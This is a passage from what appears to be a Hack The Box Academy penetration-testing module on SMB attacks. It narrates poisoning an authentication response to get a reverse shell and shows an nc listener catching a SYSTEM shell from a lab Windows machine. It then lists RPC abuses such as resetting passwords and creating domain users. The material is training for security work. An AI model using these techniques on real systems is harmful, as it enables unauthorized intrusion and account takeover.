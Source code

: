 Once the victim authenticates to our server, we poison the response and make it execute our command to obtain a reverse shell.

```shell-session
al1abb@htb[/htb]$ nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.10.110.133] from (UNKNOWN) [10.10.110.146] 52471

PS C:\Windows\system32> whoami;hostname

nt authority\system
WIN11BOX
```

### **RPC**

In the [Footprinting module](https://academy.hackthebox.com/course/preview/footprinting), we discuss how to enumerate a machine using RPC. Apart from enumeration, we can use RPC to make changes to the system, such as:

* Change a user's password.
* Create a new domain user.
* Create a new shared folder.

We also cover enumeration using RPC in the [Active Directory Enumeration & Attacks module](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks).

Keep in mind that some specific configurations are required to allow these types of changes through RPC. We can use the [rpclient man page](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) or [SMB Access from Linux Cheat Sheet](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf) from the SANS Institute to explore this further.
